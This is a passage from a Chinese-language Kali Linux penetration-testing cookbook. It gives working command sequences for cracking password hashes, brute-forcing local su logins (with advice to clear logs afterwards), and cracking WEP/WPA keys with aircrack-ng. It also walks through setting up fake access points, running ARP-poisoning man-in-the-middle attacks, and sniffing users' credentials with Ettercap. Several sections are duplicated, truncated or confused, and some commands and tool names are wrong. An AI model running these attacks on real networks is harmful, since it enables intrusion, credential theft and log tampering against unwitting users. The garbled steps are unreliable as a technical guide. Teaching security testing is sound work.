cd /usr/share/rainbowcrack/
```
2. 接下来，我们将运行 `rtgen` 生成一个基于 MD5 的彩虹表：
```bash
./rtgen md5 loweralpha-numeric 1 5 0 3800 33554432 0
```


## 密码攻击

3. 一旦生成了表——该过程取决于生成哈希值的处理器数量（需要 2-7 小时），你的目录将包含 `*.rt` 文件。
4. 为了开始破解密码，我们将使用 `thersort` 程序对彩虹表进行排序，以使过程变得简单。

## 工作原理...
在本教程中，我们使用了各种 `RainbowCrack` 工具来生成、排序和破解 MD5 密码。`RainbowCrack` 的工作原理是根据彩虹表中预计算的哈希值对哈希进行暴力破解。我们在教程开始时使用小字母、字母数字生成了 MD5 彩虹表。在教程结束时，我们通过创建彩虹表并将其用于哈希文件实现了成功。

## 使用 NVIDIA 核心计算统一设备架构 (CUDA)
在本教程中，我们将使用 `nVidia Compute Unified Device Architecture (CUDA)` 来破解破解密码哈希。`CUDA` 是一个并行计算平台，通过利用 GPU 的力量来提高计算性能。随着时间的推移，GPU 处理能力大幅提升，这使得我们能够将其用于计算目的。为了演示之目的，我们将使用 `OclHashcat-lite` 来破解密码。

### 准备工作
完成本教程需要一张支持 `nVidia CUDA` 的显卡。

## 如何操作...
1. 打开终端窗口并切换到包含 `OclHashcat` 的目录：
```bash
cd /usr/share/oclhashcat-plus
```


2. 执行以下命令以启动 `cudaHashcat-lite-help` 文件：
```bash
./cudaHashcat-plus.bin -help
```
3. 运行 `OclHashcat` 的语法格式为 `cudaHashcat-plus64.bin [options] hash [mask]`。使用 `OclHashcat` 的重要方面之一是理解其字符集结构。
4. 在部署攻击之前，让我们查看一些我们可以指定的可用攻击向量。`OclHashcat` 在其攻击中使用左右掩码。密码的字符被分为若干掩码，并平均划分以形成右掩码和左掩码。对于掩码的每一侧，你可以指定字典或字符集。出于我们的目的，我们将使用自定义字符集。
5. 要指定自定义字符集，我们使用 `-1` 选项。我们可以有任意数量的字符集，只要你用数字（`1-n`）指定它们即可。每个自定义字符由问号（`?`）表示，后面跟着预期的字符类型。可用选项有：
- `d` 指定使用数字 (0-9)
- `l` 指定小写字母
- `u` 指定大写字母
- `s` 指定特殊字符
- `1-n` 指定作为占位符的自定义字符集
6. 所以将所有内容整合在一起，我们将指定一个字符集，在预期的 8 位密码中包含特殊字符 (`s`)、大写字母 (`u`)、小写字母 (`l`) 和数字 (`d`)。我们将指定一个名为 `attackfile` 的哈希列表。
```bash
./cudaHashcat-plus64.bin attackfile -1 ?l?u?d?s ?1?1?1?1 ?1?1?1?1
```
7. 我们可以将上述命令分解如下：
- `./cudaHashcat-plus64.bin` 调用 `cudaHashcat`
- `attackfile` 是我们的 `attackfile`
- `-1 ?l?u?d?s` 指定了我们的字符集
- `?1?1?1?1` 是我们的左掩码
- `?1?1?1?1` 是我们的右掩码
这就是全部！


## 密码攻击 使用 Stream
在本教程中，我们将使用 `Stream` 来破解密码哈希。`Stream` 是一个并行计算平台，通过利用 GPU 的力量来提高计算性能。随着时间的推移，GPU 处理能力大幅提升，这使得我们能够将其用于计算目的。为了演示之目的，我们将使用 `OclHashcat-plus` 来破解密码。

### 准备工作
完成本教程需要一张支持 `Stream` 的显卡。两者都包含 Kali。

## 如何操作...
使用 `OclHashcat-plus` 开始操作。
1. 打开终端窗口并切换到包含 `OclHashcat` 的目录：
```bash
cd /usr/share/oclhashcat-plus
```
2. 执行以下命令以启动 `cudaHashcat-lite-help` 文件：
```bash
./cudaHashcat-plus.bin -help
```
3. 运行 `OclHashcat` 的语法格式为 `cudaHashcat-plus64.bin [options] hash [mask]`。使用 `OclHashcat` 的重要方面之一是理解其字符集结构。
4. 在部署攻击之前，让我们查看一些我们可以指定的可用攻击向量。`OclHashcat` 在其攻击中使用左右掩码。密码的字符被分为若干掩码，并平均划分以形成右掩码和左掩码。对于掩码的每一侧，你可以指定字典或字符集。出于我们的目的，我们将使用自定义字符集。
5. 要指定自定义字符集，我们使用 `-1` 选项。我们可以有任意数量的字符集，只要你用数字（`1-n`）指定它们即可。每个自定义字符由问号（`?`）表示，后面跟着预期的字符类型。可用选项有：
- `d` 指定使用数字 (0-9)
- `l` 指定小写字母
- `u` 指定大写字母
- `s` 指定特殊字符
- `1-n` 指定作为占位符的自定义字符集
6. 所以将所有内容整合在一起，我们将指定一个字符集，在预期的 8 位密码中包含特殊字符 (`s`)、大写字母 (`u`)、小写字母 (`l`) 和数字 (`d`)。我们将指定一个名为 `attackfile` 的哈希列表。
```bash
./cudaHashcat-plus64.bin attackfile -1 ?l?u?d?s ?1?1?1?1 ?1?1?1?1
```
7. 我们可以将上述命令分解如下：
- `./cudaHashcat-plus64.bin` 调用 `cudaHashcat`
- `attackfile` 是我们的 `attackfile`
- `-1 ?l?u?d?s` 指定了我们的字符集
- `?1?1?1?1` 是我们的左掩码
- `?1?1?1?1` 是我们的右掩码
这就是全部！


- `attackfile` 是我们的攻击文件
- `-1 ?l?u?d?` 指定自定义字符集一，选项包括小写、大写、数字和特殊字符
- `?1?1?1?1` 是我们使用字符集一的左掩码
- `?1?1?1?1` 是我们使用字符集一的右掩码

就是这些！

---

## 物理访问攻击

在本教程中，我们将利用 `SUCrack` 来执行物理访问密码攻击。`SUCrack` 是一个多线程工具，允许通过 `su` 对本地用户账户进行暴力破解。Linux 中的 `su` 命令允许你以替替用户的身份运行命令。这种攻击虽然在你无法通过其他手段在 Linux/Unix 系统上提升权限时非常有用，但它会很快填满日志文件，因此请务必在完成后清理日志文件。

`SUCrack` 有几个我们可以使用的的命令选项：

- `--help` 允许你查看 `SUCrack` 的帮助文件。
- `-l` 允许你更改我们正尝试绕过的登录用户。
- `-s` 允许你设置显示统计信息之间的时间间隔。默认设置为每 3 秒一次。


## 密码攻击

- `-a` 允许你设置是否使用 ANSI 转义码。
- `-w` 允许你设置 `SUCrack` 可以利用的线程线程数。由于 `SUCrack` 是多线程的，你可以运行任意数量的工作线程。我们建议只使用一个线程，因为每次失败的登录尝试通常会在尝试下一次密码之前导致 3 秒的延迟。

## 如何操作...

1. 为了使用 `SUCrack``，你必须在打开它时指定一个字典文件。否则，你将收到一条奇怪的消息。打开终端窗口并执行 `sucrack` 命令。出于我们的目的，我们将使用一个由 `Crunch` 生成的之前创建自定义字典文件。不过，你可以指定任何你喜欢的字典文件。
```
sucrack /usr/share/wordlists/rockyou.txt
```

2. 如果你想设置两个工作线程，希望每 6 秒显示一次统计信息，并想设置使用 ANSI 转义码，可以使用以下命令：
```
sucrack -w 2 -s 6 -a /usr/share/wordlists/rockyou.txt
```

就是这些！

## 工作原理...

在本教程中，我们使用 `SUCrack` 对系统的 root 用户执行物理访问密码攻击。该攻击通过使用指定的字典文件对管理员（默认选项）或指定用户进行字典攻击来实现。我们运行 `sucrack` 命令，它为我们提供了攻击手段。

---

## 无线攻击

在本章中，我们将涵盖：

- 无线网络 WEP 破解
- 无线网络 WPA/WPA2 破解
- 自动化无线网络破解
- 使用伪 AP 访问客户端
- URL 流量操控
- 端口重定向
- 嗅探网络流量

## 引言

如今，无线网络无处不在。随着用户变得前所未有的活跃，由于必须插上网线获取 Internet 而保持不动是不现实的。这种便利是需要代价的；无线连接没有以太网连接安全。在本章中，我们将探索操纵包括手机和无线网络的无线流量的各种方法。


## 无线网络 WEP 破解

无线等效性，或通常称为 `WEP`，自 1999 年以来一直存在，是一种用于保护无线网络的旧安全标准。2003 年，WEP 被 WPA 取代，后被 WPA2 取代。由于有了更安全的协议，WEP 加密很少被使用。事实上，强烈建议你永远不要使用 WEP 加密保护你的网络！有许多已知的利用 WEP 加密的方法，我们将在本教程中探索其中一种方法。在本教程中，我们将使用 AirCrack 套件来破解 WEP 密钥。Aircrack 套件（通常称为 `Aircrack-ng`）是一个 WEP 和 WPA 密钥破解程序，它可以捕获网络数据包、对其进行分析，并使用这些数据破解 WEP 密钥。

### 准备工作

为了完成本教程的任务，需要具有 Kali 终端窗口的经验。还需要一个配置了数据包注入的支持的无线网卡。对于无线网卡，数据包注入涉及发送一个数据包，或将其注入到双方之间已建立的连接中。请确保你的无线网卡允许数据包注入。

## 如何操作...

让我们开始使用 AirCrack 破解受 WEP 保护的网络的过程。

1. 打开终端窗口并列出无线接口列表：
```
airmon-ng
```
2. 在 `interface` 列下，选择你的其中一个接口。在这种情况下，我们将使用 `wlan0`。如果你有不同的接口（如 `mon0`），请在每个提到 `wlan0` 的地方替换为它。
3. 接下来，我们需要停止 `wlan0` 接口并将其关闭，以便我们可以在下一步中更改 MAC 地址。
```
airmon-ng stop
ifconfig wlan0 down
```


4. 接下来，我们需要更改接口的 MAC 地址。由于你机器的 MAC 地址在任何网络上识别你的身份，更改 MAC 地址可以隐藏你的真实身份。在这种情况下，我们将使用 `00:11:22:33:44:55`。
```
macchanger 00:11:22:33:44:55 wlan0
```
5. 现在，我们需要重新启动。
```
airmon-ng start
```
6. 接下来，我们将使用 `airodump` 来定位可用无线网络。
```
airodump-ng wlan0
```
7. 可用网络将出现。一旦找到你想攻击的网络，按下 `Ctrl+C` 停止搜索。高亮 `BSSID` 列中的 MAC 地址，右键点击并复制。同时，注意网络传输信号的通道。你将在 `Channel` 列中找到此信息。在这种情况下，通道是 `10`。
8. 现在我们运行 `airodump` 将选定的 BSSID 信息保存。我们将利用以下选项：
- `-c` 允许我们选择通道。在这种情况下，我们使用 `10`。
- `-w` 允许我们选择文件名。在这种情况下，我们选择了 `wirelessattack`。
- `-bssid` 允许我们选择 BSSID。在这种情况下，我们将从剪贴板粘贴 `09:AC:90:AB:78`。
```
airodump-ng -c 10 -w wirelessattack --bssid 09:AC:90:AB:78 wlan0
```
9. 一个新的终端窗口将打开，显示之前命令的输出。保持此窗口打开。
10. 打开另一个终端窗口；为了尝试关联，我们将运行 `aireplay`，其语法为：`aireplay-ng -1 0 -a [BSSID] -h [我们的选择 MAC 地址] -e [ESSID] [Interface]`。
```
aireplay-ng -1 0 -a 09:AC:90:AB:78 -h 00:11:22:33:44:55 -e backtrack wlan0
```
11. 接下来，向路由器发送一些流量以便我们拥有一些数据。我们以以下格式使用 `aireplay`：`aireplay-ng -3 -b [BSSID] - h [我们的选择 MAC 地址] [Interface]`。
```
aireplay-ng -3 -b 09:AC:90:AB:78 -h 00:11:22:33:44:55 wlan0
```
12. 你的屏幕将开始充满流量。让这个过程运行一两分钟，直到我们有足够的信息破解。


13. 最后，我们运行 AirCrack 来破解 WEP 密钥。
```
aircrack-ng -b 09:AC:90:AB:78 wirelessattack.cap
```


通过基于 WEP 的无线连接，并对数据进行数学分析来破解 WEP 加密密钥。我们开始该方案的方法是启动 `AirCrack` 并选择我们所需的接口。接下来，我们更改了 MAC 地址，以便在网络上更改身份，然后使用 `airodump` 搜索可攻击的可用无线网络。一旦我们找到了想要攻击的网络，我们就会使用 `aireplay` 将我们的机器与正在攻击的无线设备的 MAC 地址关联。最后，我们收集了一些流量，然后对生成的 `.cap` 文件进行暴力破解，以获取无线网络密码。

## 无线网络 WPA/WPA2 破解

WiFi Protected Access（通常称为 `WPA`）自 2003 年以来一直存在，旨在保护无线网络并取代过时的旧标准 `WEP` 加密。在 2003 年，`WEP` 被 `WPA` 取代，随后被 `WPA2` 取代。由于有了更安全的协议，`WEP` 加密已很少使用。

在本方案中，我们将使用 `AirCrack` 套件来破解 WPA 密钥。`AirCrack` 套件（通常称为 `AirCrack NG`）是一个 `WEP` 和 `WPA` 密钥破解程序，它通过捕获网络包、分析它们，并使用这些数据破解 `WPA` 密钥。

### 准备工作

为了执行本方案的任务，需要具有 `Kali Linux` 终端窗口的经验。还需要一个配置了数据包注入的支持无线网卡。对于无线网卡，数据包注入涉及发送数据包或将其注入到双方已建立的连接中。

222


# 第 9 章

## 如何操作...

让我们开始使用 `AirCrack` 破解由 WPA 安全的网络会话。

1. 打开终端窗口并列出无线网络接口列表。

```
airmon-ng
```

2. 在接口列下，选择一个接口。在这种情况下，我们将使用 `wlan0`。如果你有不同的接口（例如 `mon0`），请在所有提到 `wlan0` 的地方将其替换。

3. 接下来，我们需要停止并关闭 `wlan0` 接口。

```
airmon-ng stop wlan0
ifconfig wlan0 down
```
4. 接下来，我们需要更改接口的 MAC 地址。在这种情况下，我们将使用 `00:11:22:33:44:55`。

```
macchanger --mac 00:11:22:33:44:55 wlan0
```

5. 现在，我们需要重启 `airmon-ng`。

```
airmon-ng start wlan0
```

6. 接下来，我们将使用 `airodump` 定位附近的可用无线网络。

```
airodump-ng wlan0
```

7. 可用网络列表开始出现。一旦你找到了想要攻击的网络，按下 `Ctrl+C` 停止搜索。高亮 `BSSID` 列中的 MAC 地址，右键点击并选择复制。同时注意网络传输信号的信道。你可以在 `Channel` 列中找到此信息。在这种情况下，信道为 `10`。

8. 现在我们运行 `airodump`并将所选 `BSSID` 的信息复制到文件中。我们将利用以下选项：

- `-c` 允许我们选择信道。在这种情况下，我们使用 `10`。
- `-w` 允许我们选择文件名称。在这种情况下，我们选择了 `wirelessattack`。
- `-bssid` 允许我们选择 `BSSID`。在这种情况下，我们将从剪贴板粘贴 `09:AC:90:AB:78`。

```
airodump-ng -c 10 -w wirelessattack --bssid 09:AC:90:AB:78 wlan0
```

223


## 无线攻击

9. 将打开一个新的终端窗口，显示上一个命令的输出。保持此窗口打开。

10. 打开另一个终端窗口；为了尝试关联，我们将运行 `aireplay`，其语法为：`aireplay-ng -dauth 1 -a [BSSID] -c [我们选择的 MAC 地址] [Interface]`。此过程可能需要几分钟。

```
aireplay-ng --deauth 1 -a 09:AC:90:AB:78 -c 00:11:22:33:44:55 wlan0
```

11. 最后，我们运行 `AirCrack` 来破解 WPA 密钥。`-w` 选项允许我们指定字典的位置。我们将使用之前命名的 `.cap` 文件。在这种情况下，文件名为 `wirelessattack.cap`。

```
Aircrack-ng -w ./wordlist.lst wirelessattack.cap
```

就此了！

## 工作原理...

在本方案中，我们使用 `AirCrack` 套件破解了无线网络的 WPA 密钥。`AirCrack` 是破解 WPA 最流行的程序之一。`AirCrack` 的工作原理是从基于 WPA 的无线连接中收集数据包，然后对收集的数据进行密码暴力破解，直到


接下来，我们从 `Gerix` 提供的攻击目标列表中选择了我们的目标。在我们开始嗅探网络流量后，使用了 `Chop Chop` 生成了 `CAP` 文件。最后，我们通过收集 20,000 个数据包并使用 `Aircrack` 对 `CAP` 文件进行暴力破解，完成了此实验。

通过 `Gerix`，我们能够自动化破解 WEP 密钥的步骤，而无需在终端窗口中手动输入命令。这是快速高效地攻入 WEP 安全网络的极佳方法。

## 使用虚假 AP 访问客户端

在本实验中，我们将使用 `Gerix` 创建并设置一个虚造的接入点（AP）。设置虚造接入点使我们能够收集连接它的每台计算机的信息。在当今时代，人们往往为了便利而牺牲安全性。连接到开放的无线接入点发送快速电子邮件或快速登录社交网络是非常方便的。`Gerix` 是 `AirCrack` 的自动化 GUI 界面。

### 准备工作

完成本实验需要一个配置了数据包注入（packet injection）的支持无线网卡。对于无线网卡，数据包注入涉及发送数据包，或将其注入到双方之间已建立的连接中。

### 如何操作……

让我们开始使用 `Gerix` 创建虚假 AP 的过程。

1. 导航到 `Gerix` 所在的目录：
```bash
cd /usr/share/gerix-wifi-cracker
```


2. 要开始使用 `Gerix`，发布以下命令：
```bash
python gerix.py
```

3. 点击 `Configuration（配置）标签页。
4. 在 `Configuration` 标签页中，选择你的无线接口。
5. 点击 `Enable/Disable Monitor Mode（启用/禁用监听模式）按钮。
6. 一旦成功启用监听模式，在 `Select Target Network（选择目标网络）` 下按下 `Rescan Networks（重新扫描网络）按钮。
7. 目标网络列表开始填充。选择一个无线网络作为目标。在这种情况下，我们选择了一个 WEP 加密的网络。

8. 点击 `Fake AP（虚假 AP）标签页。


9. 将 `Access Point ESSID` 从 `honeypot` 改为不那么可疑的名字。在这种情况下，我们将使用 `personalnetwork`。
10. 我们将使用其他选项的默认值。要启动虚假接入点，点击 `Start Fake Access Point（启动虚假接入点）按钮`。

就这样！


### 工作原理……

在本实验中，我们使用 `Gerix` 创建了一个虚假 AP。创建虚假 AP 是从毫无防备的用户那里收集信息的极佳方法。虚假接入点是一个强大工具的原因是，对于受害者来说，它们看起来是合接入点，从而获得了用户的信任。通过 `Gerix`，我们能够在几次点击内自动化完成设置虚假接入点的过程。

## URL 流量操纵

在本实验中，我们将执行 URL 流量操纵攻击。URL 流量操纵与中间人攻击（MITM）非常相似，因为我们将发往互联网的流量路由通过我们的机器。我们将通过 `ARP poisoning（ARP 毒）` 执行这种攻击。`ARP poisoning` 是一种向本地网络上的受害者发送伪造的 ARP 消息的技术。我们将使用 `arpspoof` 执行本实验。

### 如何操作……

让我们开始 URL 流量操纵的过程。

1. 打开终端窗口并执行以下命令来配置 IP 表，允许我们的机器路由流量：
```bash
sudo echo 1 >> /proc/sys/net/ipv4/ip_forward
```

2. 接下来，我们启动 `arpspoof` 来毒化从受害者机器到默认网关的流量。在这个示例中，我们将使用本地网络上地址为 `192.168.10.115` 的 Windows 7 机器。`Arpspoof` 有几项我们将选择的选项，包括：
- `-i` 允许我们选择目标接口。在这种情况下，我们将选择 `wlan0`。
- `-t` 允许我们指定目标。

完成此命令的语法为 `arpspoof -i [interface] -t [target IP address] [destination IP address]`。
```bash
sudo arpspoof -i wlan0 -t 192.168.10.115 192.168.10.1
```

3. 接下来，我们将执行另一个 `arpspoof` 命令，该命令将获取上一个命令中目标（即默认网关）的流量并将其路由回我们的 Kali 机器。在此示例中我们的 IP 是 `192.168.10.110`。
```bash
sudo arpspoof -i wlan0 -t 192.168.10.1 192.168.10.110
```

就这样！


### 工作原理……

在本实验中，我们使用配合 `arpspoof` 的 `ARP poisoning` 来操纵网络上的流量，最终将其路由回我们的 Kali 机器。一旦流量被重定向，你就可以针对受害者运行其他攻击，包括记录他们的……。

## 端口重定向

在本实验中，我们将使用 Kali 执行端口重定向，也称为端口转发（port forwarding）。端口重定向涉及接受数据包（例如端口 80）并将其重定向到不同的端口（例如 8080）。

### 如何操作……

让我们开始端口重定向的过程。

1. 打开终端窗口并执行以下命令来配置 IP 表，允许我们的机器路由流量：
```bash
sudo echo 1 >> /proc/sys/net/ipv4/ip_forward
```

2. 接下来，我们启动 `arpspoof` 来毒化从受害者机器到默认网关的流量。在这个示例中，地址是 `192.168.10.115`。`Arpspoof` 有几项我们将选择的选项，包括：
- `-i` 允许我们选择目标接口。在这种情况下，我们将选择 `wlan0`。
- `-t` 允许我们指定目标。

完成此命令的语法为 `arpspoof -i [interface] -t [target IP address] [destination IP address]`。
```bash
sudo arpspoof -i wlan0 -t 192.168.10.115 192.168.10.1
```

3. 接下来，我们将执行另一个 `arpspoof` 命令，该命令将获取上一个命令中目标（即默认网关）的流量并将其路由回我们的 Kali 机器。在此示例中我们的 IP 是 `192.168.10.110`。
```bash
sudo arpspoof -i wlan0 -t 192.168.10.1 192.168.10.110
```
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### 工作原理……

在本实验中，我们使用配合 `arpspoof` 的 `ARP poisoning` 以及 `IPTables` 路由来操纵网络上的端口 80 流量，将其重定向到 8080。

## 网络流量嗅探

在本实验中，我们将研究网络流量嗅探的过程。网络流量嗅探涉及拦截网络数据包、分析并在必要时解码流量，显示数据包包含的信息。嗅探流量对于从目标收集信息特别有用，因为取决于访问的网站，你将看到访问的 URL、用户名、密码以及可以用于对它们的其他细节。

在本实验中使用我们将 `Ettercap`，但你也可以使用 `Wireshark`。为了演示目的，`Ettercap` 更容易理解和应用嗅探原理。


涉及向双方之间已建立的连接发送数据包，或将其注入其中。

## 如何操作...

让我们通过启动 Ettercap 开始嗅探网络流量的过程。

1.  打开终端窗口并启动 Ettercap。使用 `-G` 选项启动图形用户界面：
```bash
ettercap -G
```


2.  我们通过开启“统一嗅探”（Unified sniffing）开始该过程。你可以按下 `Shift+U` 或使用菜单导航到 `Sniff|Unified sniffing`。

3.  选择网络接口。在进行中间人攻击（MITM）的情况下，我们应该选择我们的无线接口。


4.  接下来，我们开启“扫描主机”（Scan for hosts）。这可以通过按下 `Ctrl+S` 完成，也可以使用菜单导航到 `Hosts|Scan for hosts`。

5.  接下，我们调出“主机列表”（Host List）。你可以按下 `H` 或使用菜单导航到 `Hosts|Host List`。

6.  接下来我们需要选择并设置目标。在我们的案例中，将通过高亮 IP 地址并点击 `Add To Target 1` 按钮将 `192.168.10.111` 选择为我们的目标 1。


7.  现在我们可以允许 Ettercap 开始嗅探了。你可以按下 `Ctrl+W` 或使用菜单导航到 `Start|Start sniffing`。

8.  最后，我们开始 ARP 投毒过程。从菜单导航到 `Mitm|Arp poisoning...`。

9.  在弹出的窗口中，勾选“嗅探远程连接”（Sniff remote connections）可选参数。


10. 根据网络流量，我们将开始看到信息。

11. 一旦我们找到了正在寻找的内容（用户名和密码），我们将关闭 Ettercap。你可以通过按下 `Ctrl+E` 或使用菜单导航到 `Start|Stop sniffing 来 来实现此。


12. 现在我们需要关闭 ARP 投毒并让网络恢复正常。

## 工作原理...

本配方包含一种中间人攻击（MITM），该攻击通过使用 ARP 数据包投毒来监听用户传输的无线通信。我们通过启动 Ettercap 并扫描主机开始该配方。然后我们开始对网络进行 ARP 投毒过程。ARP 投毒是一种允许你向局域网上的受害者发送伪造的 ARP 消息的技术。

我们通过启动数据包嗅探器结束配方，并演示了停止 ARP 投毒并让网络恢复正常的方法。这一步是检测过程中的关键，因为它允许你在停止对网络进行投毒后不会导致网络掉线。该过程对于收集在无线网络上传输的信息非常有用。根据流量，你将能够收集用户名、密码、银行账户详情以及目标跨网络发送的其他信息。这些信息也可以作为更大规模攻击的跳板。


